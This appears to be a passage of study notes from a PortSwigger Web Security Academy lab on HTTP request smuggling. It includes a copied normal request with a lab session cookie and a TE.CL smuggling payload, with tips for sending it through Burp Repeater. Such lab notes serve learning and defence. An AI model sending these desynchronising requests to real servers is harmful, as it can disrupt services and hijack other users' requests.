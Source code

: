```bash
Cookie: ...
```

About X-Ignore header: the name of it is random, it does not matter what we call it

Normal req (copied from burp's http history and only http method is changed from http2 to http 1.1, everything else stays the same):
```bash
GET / HTTP/1.1
Host: 0a76000d0349cb86c626ea2c00750024.web-security-academy.net
Cookie: session=fWPKe4DIffrpGyMSi5Svw0DDTAf50WTV
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

If we send our normal req casually, we get 200 OK status
But if we first send our attack req and only after it we send normal req - we get 404 not found

### Confirming TE.CL vulnerabilities using differential responses
To confirm a TE.CL vulnerability, you would send an attack request like this:
```bash
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

> Note:
>
>  To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
> You need to include the trailing sequence \r\n\r\n following the final 0. 
